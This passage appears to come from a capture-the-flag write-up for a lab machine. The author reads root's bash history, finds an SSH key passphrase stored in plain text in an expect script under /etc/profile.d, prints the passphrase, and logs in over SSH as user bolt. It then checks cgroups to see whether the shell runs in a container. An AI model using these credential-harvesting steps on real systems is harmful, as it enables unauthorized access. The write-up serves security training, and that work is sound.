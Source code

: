 ```
cat /root/.bash_history
...
...
chmod +x /etc/profile.d/01-ssh.sh 
/etc/profile.d/01-ssh.sh 
cat /etc/profile.d/01-ssh.sh 
ps aux
vi /etc/profile.d/01-ssh.sh
/etc/profile.d/01-ssh.sh 
vi /etc/profile.d/01-ssh.sh
/etc/profile.d/01-ssh.sh 
ps aux
..
```

I got a long output, but here we have an intersting commands when user modify what appears to be an ssh script "/etc/profile.d/01-ssh.sh" maybe user want to automatize the ssh authenication, so let's see what this file contains.

```
$ cat etc/profile.d/01-ssh.sh
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

Bingo, we found the passphrase:  

#### Passphrase : GkOcz221Ftb3ugog

And now we get a shell as user bolt : 

```
$ ssh -i id_rsa bolt@10.10.10.159
Enter passphrase for key 'id_rsa': 
bolt@bolt:~$ cat user.txt | wc -c
33
bolt@bolt:~$ id
uid=1001(bolt) gid=1001(bolt) groups=1001(bolt)
```

The first thing to do when you're working in a box using doker is to read "/proc/1/cgroup" file to know if we're into a docker container, and we can see from the output that we are in the Host:

```
$ cat /proc/1/cgroup
12:blkio:/
11:perf_event:/
10:memory:/
9:hugetlb:/
8:devices:/
7:pids:/
6:cpuset:/
5:freezer:/
4:net_cls,net_prio:/
3:rdma:/
2:cpu,cpuacct:/
1:name=systemd:/init.scope
0::/init.scope
```  

